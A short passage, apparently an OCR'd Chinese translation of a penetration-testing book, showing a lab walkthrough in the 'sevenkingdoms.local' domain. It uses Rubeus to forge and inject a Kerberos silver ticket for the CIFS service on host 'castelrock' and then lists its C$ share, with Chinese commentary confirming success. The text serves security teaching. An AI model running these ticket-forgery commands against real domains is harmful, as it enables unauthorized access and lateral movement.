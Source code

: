 ```
runas /netonly /user:sevenkingdoms\lord.varys cmd
Rubeus.exe silver /user:robert.baratheon /domain:sevenking doms.local /aes256:9a0d511ea6556233b28c0c0ec576e120cfdb08c372ef 5a7c4def5c829666d75f /sid:S-1-5-21-4243769114-3325725031-2403382846 /service:cifs/castelrock.sevenkingdoms.local /ptt
ls \\castelrock.sevenkingdoms.local\c$
```

Rubeus 已经成功注入了票证：

![图 7.1 – 在注入票证之前无法访问 CIFS 服务](img/B18964_07_01.jpg)

图 7.1 – 在注入票证之前无法访问 CIFS 服务

注入票证后，`castelrock` 上的 CIFS 服务可以访问：
